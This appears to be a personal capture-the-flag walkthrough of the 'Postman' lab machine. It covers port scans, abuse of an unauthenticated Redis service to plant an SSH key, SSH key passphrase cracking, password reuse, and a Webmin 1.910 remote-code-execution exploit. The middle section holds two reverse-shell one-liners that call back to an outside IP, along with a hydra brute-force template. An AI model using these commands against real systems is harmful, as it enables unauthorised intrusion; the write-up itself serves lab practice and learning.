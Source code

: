 # Machine #[NUMBER] [NAME]  


## Nmap Results  
  <img src="https://nmap.org/images/nmap-logo-256x256.png">   

* Initial nmap output  

  * An ssh, http and something else weird. I will -sV it to see if I find something.


* Full scan   



<br/><br/>

## Banner Grabbing of Services  

### `-p10000` http  
* Turned out to be an http service also.
    
  ```
  10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
  ```  

### `-80` http  
  ```console
  PORT   STATE SERVICE VERSION
  80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
  |_http-server-header: Apache/2.4.29 (Ubuntu)
  |_http-title: The Cyber Geek's Personal Website
  ```
### `-p6379` redis  
* Found this weird service with the full scan  
```console
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 4.0.9
```

<br/><br/>

## Searchsploiting Results   
  <img src="https://www.offensive-security.com/wp-content/uploads/2020/05/SearchSploit-1.png" width=400 height=200>   



<br/><br/>  

## Gobustering Stuff  

  <img src="https://cdn.akamai.steamstatic.com/steam/apps/1092880/capsule_616x353.jpg?t=1605640630" width=400 height=200>  



<br/><br/>


## Thinking Out Loud   

  <img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQr4hzX6KoRN5PjPJjy8QC43K0T-CoXZHawDIxG4jCa9aMD1K8Vl3vhpG2a2OVbiy-i93c&usqp=CAU" width=200 height=200>  


* Seems like the "redis" service is used to implement ssl.  

  <blockquote>
  but you have to keep in mind that it can also implement ssl/tls.
  </blockquote>  


hydra -l [USER NAME] -p [PASSWORD] [IP ADDRESS] -t [NUMBER OF THREADS] [SSH OR FTP]


* Got Matt's password `/home/kali/Documents/machines/postman/id_rsa:computer2008
` he's not allowed to ssh but he like most people re-used the password.  


(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 1234 >/tmp/f)
bash -i >& /dev/tcp/10.10.14.3/1234 0>&1  

* The payload of the reverse shell didn't seem to work until I converted it into base64 and then encoded it.
<br/><br/>



## How Did I Solve the Machine 

   <img src="https://images.lifesizecustomcutouts.com/image/cache/catalog/febProds21/SP000081-500x500.png" width=200 height=200>   

  1. I used this technique to get into redis with ssh.  

  <img src="./ssh_redis.png">  

  2. As soon as I got ssh with redis I was able to read Matt's SSH private key backup file and with it I was only left with the passphrase for the SSH key which wasn't hard to crack with `ssh2john.py` and then with `john` itself. 
  3. But I couldn't ssh with Matt because I saw that in the ssh configurations that Matt was forbidden from using ssh.
  4. But that wasn't a problem because Matt most probably re-used his password and he certainly did two times. One using the `su` and the other in the Webmin which gives me root access when I login.
  5. So what was left was to exploit Webmin and get a reverse shell from there to get root.
  6. Which was almost easy to do because there was an exploit for our exact version of Webmin (1.910) where it gave RCE.
  7. After encoding our reverse shell with base64 and then with URL encoding I was able to gain the reverse shell.
     

## Where I Got Stuck?  

* The reverse shell as usual. I had to encode it in base64, then in uri encoding to get the root reverse shell.
* I also got stuck at first a bit before I checked the full nmap scan and found the 10000 port of redis.
   

## What Did I learn from this Machine?  

* In the commands we use above research what does "dbfilename" mean...s
* I think the fact that redist was open for anyone to use. It did not have authentication.
* So I was easily able to write to its ssh file and gain foothold on the system.

## Writeups   
  


<!--@nested-tags:brute_force/machines/postman,file_misconfiguration/machines/postman-->